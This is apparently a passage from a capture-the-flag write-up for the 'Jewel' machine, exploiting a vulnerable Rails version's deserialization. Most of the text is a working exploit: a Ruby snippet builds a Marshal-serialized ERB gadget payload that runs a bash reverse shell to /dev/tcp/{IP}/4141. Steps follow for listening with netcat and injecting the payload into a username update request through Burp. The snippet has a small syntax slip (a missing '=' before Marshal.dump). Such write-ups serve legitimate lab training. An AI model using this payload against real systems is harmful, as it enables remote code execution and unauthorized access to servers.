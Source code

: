   ![](/assets/img/posts/jewel/username.png)

* Found the vulnerability and its location now time to exploit it.
* For exploiting it we need to install rail console to create payload that specified in the PoC:
  * install the same Rail version that is vulnerable for this exploit.

* starting console:

	  $ bundle exec rails console
	  irb(main):>

* Creating Payload
```ruby
code = '`/bin/bash -c "bash -i &>/dev/tcp/{IP}/4141 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

this give us usr encoded payload.



* start netcat, intercept the username update request in burp, past payload in username field and forward the request and then refresh the page and payload get execute and we get shell.

  ![](/assets/img/posts/jewel/jewel-foothold.GIF)
